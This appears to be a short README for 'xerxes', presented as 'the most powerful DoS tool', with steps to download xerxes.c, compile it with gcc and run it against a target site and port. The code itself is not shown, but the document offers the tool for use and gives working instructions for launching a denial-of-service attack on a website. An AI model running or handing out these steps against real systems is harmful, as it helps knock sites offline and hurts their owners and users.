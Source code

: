 # Linux-sh

# xerxes
XERXES the most powerful DoS tool
Download the File xerxes.c to your Desktop
Open Terminal and type these commands
cd Desktop
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.fakesite.com 80
